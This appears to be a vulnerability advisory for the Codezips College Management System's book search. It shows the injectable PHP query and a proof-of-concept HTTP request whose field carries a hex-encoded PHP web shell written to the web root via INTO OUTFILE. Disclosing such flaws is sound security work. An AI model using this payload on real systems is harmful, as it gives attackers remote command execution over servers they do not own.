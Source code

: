 # Remote Code Execution via SQL Injection


## Vendor and Product information:
* **Vendor:** Codezips
* **Product:** College Management System
* **Product URL:** https://codezips.com/php/college-management-system/

## Description
The book search feature in the College Management System is vulnerable to Remote Code Execution through SQL injection, allowing attackers to access sensitive server data and compromise the confidentiality, integrity, and availability of the system.

## Code
~~~ php
<?php
if(isset($_POST['search_book']))
 $name=$_POST['book_name'];
 $author=$_POST['book_author'];
 $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";
 $results = mysqli_query($db, $query);
 $row = mysqli_fetch_array($results);
?>
~~~

## Proof of Concept
**HTTP Request Example**
``` http request
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/college-mgmt-php-master/Front-end/faculty.php

book_name=x'+union+select+NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e,NULL,NULL+INTO+OUTFILE+'/opt/lampp/htdocs/shell.php'--+-&book_author=x&search_book=
```

## Screenshot
![image](https://github.com/user-attachments/assets/6246a128-6350-440d-aa4a-afea1371aecc)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
